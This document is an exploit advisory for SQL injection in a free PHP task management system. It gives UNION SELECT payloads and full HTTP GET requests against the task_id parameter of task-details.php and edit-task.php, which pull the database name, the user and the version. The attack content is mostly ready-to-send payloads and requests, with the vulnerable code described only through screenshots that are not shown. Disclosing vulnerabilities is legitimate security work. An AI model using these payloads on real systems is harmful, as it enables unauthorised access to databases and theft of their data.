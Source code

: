 # Exploit Title: Authenticated SQL Injection in PHP Task Management System
# Date: 2024-03-04
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html
# Version: 1.0
# Tested on: Linux / PHP 8 & MariaDB

## Task Details

task_id parameter is vulnerable to SQL Injection. Attacker can query database via crafted GET request using payload such as ``` ' UNION SELECT null,null,database(),user(),version(),null,null,null -- -```.

Example Request :

	GET /task-details.php?task_id='%20UNION%20SELECT%20null,null,database(),user(),version(),null,null,null%20--%20- HTTP/1.1
	Host: 192.168.88.129
	Cookie: PHPSESSID=eq37jo682mlrca0ot0ablkhii3
	Upgrade-Insecure-Requests: 1

![](InjectedReq.png)
Application gets task_id parameter and uses it in sql query directly without any sanitization. In task-details.php, user supplied parameter task_id is used directly in sql query as shown figure below. You can spot vulnerable code snippet in given figure.
![[sqliCode.png]]

## Edit Tasks
task_id parameter is also vulnerable to SQL Injection in edit-task.php. Payload such as ``` ' UNION SELECT null,null,database(),user(),version(),null,null-- -``` can be used.

Example Request :

	GET /edit-task.php?task_id=%27%20UNION%20SELECT%20null,null,database(),user(),version(),null,null--%20- HTTP/1.1
	Host: 192.168.88.129
	Cookie: PHPSESSID=eq37jo682mlrca0ot0ablkhii3
	Upgrade-Insecure-Requests: 1


![](njectedReq2.png)

![](sqliCode2.png)
